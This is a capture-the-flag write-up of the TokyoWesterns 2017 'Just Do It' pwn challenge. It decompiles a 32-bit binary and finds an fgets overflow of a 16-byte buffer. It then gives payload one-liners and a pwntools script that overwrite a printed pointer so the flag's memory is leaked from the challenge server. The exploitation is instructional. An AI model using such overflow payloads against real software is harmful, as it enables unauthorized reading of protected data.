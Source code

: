 # Just Do It!

This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

```
$    file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$    pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$    ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
file open error.
: No such file or directory
```

So it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

```
undefined4 main(void)

{
  char local_EAX_154;
  FILE *flagFile;
  int cmp;
  char vulnBuf [16];
  FILE *flagHandle;
  char *target;

  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  target = failed_message;
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _local_EAX_154 = fgets(flag,0x30,flagFile);
  if (_local_EAX_154 == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  _local_EAX_154 = fgets(vulnBuf,0x20,stdin);
  if (_local_EAX_154 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  cmp = strcmp(vulnBuf,PASSWORD);
  if (cmp == 0) {
    target = success_message;
  }
  puts(target);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

```
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!
